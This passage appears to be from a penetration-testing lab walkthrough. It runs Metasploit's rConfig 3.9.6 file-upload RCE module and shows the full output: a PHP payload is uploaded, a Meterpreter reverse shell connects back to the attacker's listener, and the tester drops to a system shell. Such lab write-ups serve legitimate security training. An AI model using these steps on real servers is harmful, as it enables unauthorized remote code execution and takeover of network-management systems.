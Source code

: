 ### Step 2: Exploit Execution

**Launch the Attack:**
```bash
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit
```

**Exploitation Process:**
```
[*] Started reverse TCP handler on 10.10.14.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860)
```

**Exploit Steps Breakdown:**
1. **Version Detection**: Confirms vulnerable rConfig 3.9.6
2. **Authentication**: Successfully logs into rConfig
3. **Payload Upload**: Uploads PHP-based reverse shell
4. **Payload Trigger**: Executes uploaded payload
5. **Stage Transfer**: Sends Meterpreter stage
6. **Cleanup**: Removes uploaded payload file
7. **Session Establishment**: Provides Meterpreter shell

### Step 3: Initial Shell Interaction

**Meterpreter Session:**
```bash
meterpreter > dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg
```

**Drop to System Shell:**
```bash
meterpreter > shell
Process 3958 created.
Channel 0 created.

# Test basic commands
dir
ajax-loader.gif  cisco.jpg  juniper.jpg

ls
ajax-loader.gif
cisco.jpg
juniper.jpg
```
